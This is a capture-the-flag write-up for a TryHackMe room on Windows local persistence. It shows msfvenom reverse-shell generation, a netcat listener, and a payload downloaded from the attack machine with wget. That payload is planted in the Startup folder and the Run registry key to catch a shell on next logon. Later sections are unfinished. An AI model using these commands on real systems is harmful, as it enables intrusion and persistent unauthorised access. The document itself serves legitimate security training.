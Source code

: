 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/06/2023

# Startup Folder
1. Started up this task's machine
2. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACK MACHINE IP> LPORT=<PORT NUMBER> -f <PAYLOAD FORMAT> -o <PAYLOAD NAME>.exe` from our Linux attack machine
```Bash
root@ip-10-10-157-221:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.157.221 LPORT=9999 -f exe -o revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: revshell.exe
```
3. `nc -lvnp <PORT NUMBER>` from our Linux attack machine
```Bash
root@ip-10-10-157-221:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
4. `sudo python3 -m http.server` from our Linux attack machine
```Bash
root@ip-10-10-157-221:~# sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
5. `PowerShell` from the compromised Windows machine
```PowerShell
C:\Users\Administrator>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```
6. `wget http://<ATTACK MACHINE IP>:8000/<PAYLOAD NAME>.exe -O <PAYLOAD NAME>.exe` from the compromised Windows machine
```PowerShell
PS C:\Users\Administrator> wget http://10.10.157.221:8000/revshell.exe -O revshell.exe
```
7. `dir` from the compromised Windows machine
```PowerShell
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
-a----         7/7/2023   5:31 PM           7168 revshell.exe
```
8. `copy <PAYLOAD NAME>.exe <DESTINATION PATH>` from the compromised Windows machine
```PowerShell
PS C:\Users\Administrator> copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
```
9. Sign out and log back in from the compromised Windows machine

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Sign%20Out.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnect.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnected.png)

```Bash
root@ip-10-10-157-221:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.236.33 49721 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
10. `C:\flags\flag10.exe` from our reverse shell on our attack machine to
```PowerShell
C:\Windows\system32>C:\flags\flag10.exe
C:\flags\flag10.exe
THM{NO_NO_AFTER_YOU}
```


**TASK COMPLETED!**

# Run / RunOnce
1. Started up this task's machine
2. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACK MACHINE IP> LPORT=<PORT NUMBER> -f <PAYLOAD FORMAT> -o <PAYLOAD NAME>.exe`
```Bash
root@ip-10-10-157-221:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.157.221 LPORT=9999 -f exe -o revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: revshell.exe
```
3. `nc -lvnp <PORT NUMBER>` from our Linux attack machine
```Bash
root@ip-10-10-157-221:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
4. `sudo python3 -m http.server` from our Linux attack machine
```Bash
root@ip-10-10-157-221:~# sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
5. `PowerShell` from the compromised Windows machine
```PowerShell
C:\Users\Administrator>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```
6. `wget http://<ATTACK MACHINE IP>:8000/<PAYLOAD NAME>.exe -O <PAYLOAD NAME>.exe` from the compromised Windows machine
```PowerShell
PS C:\Users\Administrator> wget http://10.10.157.221:8000/revshell.exe -O revshell.exe
```
7. `move <PAYLOAD NAME>.exe <DESTINATION PATH>`
```PowerShell
```
8. `regedit` and go to HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run

![]()

![]()

![]()

9. Sign out and log back in

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Sign%20Out.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnect.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnected.png)

```Bash
```
10. `C:\flags\flag11.exe`
```PowerShell
```


**TASK COMPLETED!**


# Winlogon
1. Started up this task's machine

# Logon Scripts
1. Started up this task's machine
